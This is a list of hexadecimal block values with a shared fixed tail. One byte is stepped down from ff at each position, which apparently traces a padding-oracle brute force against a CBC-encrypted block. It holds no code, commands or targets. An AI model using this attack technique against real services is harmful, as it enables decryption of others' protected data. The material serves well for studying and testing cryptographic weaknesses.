00000000000000000000000ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000ae70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ff09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000fe09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000fd09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000fc09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000fb09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000fa09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f909e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f809e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f709e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f609e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f509e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f409e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f309e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f209e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f109e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000f009e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ef09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ee09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ed09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ec09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000eb09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ea09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e909e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e809e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e709e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e609e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e509e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e409e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e309e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e209e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e109e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000e009e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000df09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000de09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000dd09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000dc09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000db09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000da09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d909e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d809e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d709e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d609e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d509e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d409e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d309e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d209e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d109e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000d009e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000cf09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ce09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000cd09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000cc09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000cb09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ca09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c909e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c809e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c709e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c609e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c509e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c409e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c309e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c209e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c109e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000c009e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000bf09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000be09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000bd09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000bc09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000bb09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ba09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b909e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b809e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b709e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b609e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b509e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b409e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b309e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b209e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b109e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000b009e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000af09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ae09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ad09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ac09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000ab09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000aa09e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a909e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a809e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a709e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a609e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a509e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a409e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a309e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a209e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a109e408a8f077eb9f8779eeda009e2365505fa7e3d6
00000000000000000000a009e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009f09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009e09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009d09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009c09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009b09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009a09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009909e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009809e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009709e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009609e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009509e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009409e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009309e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009209e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009109e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000009009e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008f09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008e09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008d09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008c09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008b09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008a09e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008909e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008809e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008709e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008609e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000008509e408a8f077eb9f8779eeda009e2365505fa7e3d6
000000000000000000ff8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000fe8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000fd8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000fc8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000fb8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000fa8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f98408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f88408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f78408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f68408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f58408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f48408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f38408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f28408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f18408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000f08408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000ef8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000ee8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000ed8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000ec8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000eb8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000ea8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e98408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e88408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e78408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e68408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e58408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e48408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e38408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e28408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e18408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000e08408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000df8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000de8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000dd8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000dc8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000db8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000da8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d98408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d88408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d78408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d68408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d58408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d48408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d38408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d28408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d18408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000d08408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000cf8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000ce8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000cd8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000cc8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000cb8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000ca8408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000c98408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000c88408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000c78408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000c68408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000c58408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000c48408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000c38408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000c28408e509a9f177eb9f8779eeda009e2365505fa7e3d6
000000000000000000c18408e509a9f177eb9f8779eeda009e2365505fa7e3d6
0000000000000000ffce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000fece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000fdce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000fcce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000fbce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000face8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f9ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f8ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f7ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f6ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f5ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f4ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f3ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f2ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f1ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000f0ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000efce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000eece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000edce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000ecce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000ebce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000eace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e9ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e8ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e7ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e6ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e5ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e4ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e3ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e2ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e1ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000e0ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000dfce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000dece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000ddce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000dcce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000dbce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000dace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d9ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d8ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d7ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d6ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d5ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d4ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d3ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d2ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d1ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000d0ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000cfce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000cece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000cdce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000ccce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000cbce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000cace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c9ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c8ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c7ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c6ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c5ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c4ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c3ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c2ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c1ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000c0ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000bfce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000bece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000bdce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000bcce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000bbce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000bace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b9ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b8ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b7ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b6ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b5ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b4ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b3ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b2ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b1ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000b0ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000afce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000aece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000adce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000acce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000abce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000aace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a9ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a8ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a7ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a6ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a5ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a4ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a3ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a2ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a1ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
0000000000000000a0ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000009fce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000009ece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000009dce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000009cce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000009bce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000009ace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000099ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000098ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000097ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000096ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000095ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000094ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000093ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000092ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000091ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000090ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000008fce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000008ece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000008dce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000008cce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000008bce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000008ace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000089ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000088ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000087ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000086ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000085ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000084ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000083ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000082ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000081ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000080ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000007fce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000007ece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000007dce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000007cce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000007bce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000007ace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000079ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000078ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000077ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000076ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000075ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000074ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000073ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000072ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000071ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000070ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000006fce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000006ece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000006dce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000006cce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000006bce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000006ace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000069ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000068ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000067ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000066ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000065ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000064ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000063ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000062ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000061ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000060ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000005fce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000005ece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000005dce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000005cce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000005bce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000005ace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000059ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000058ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000057ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000056ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000055ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000054ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000053ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000052ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000051ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000050ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000004fce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000004ece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000004dce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000004cce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000004bce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000004ace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000049ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000048ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000047ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000046ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000045ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000044ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000043ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000042ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000041ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
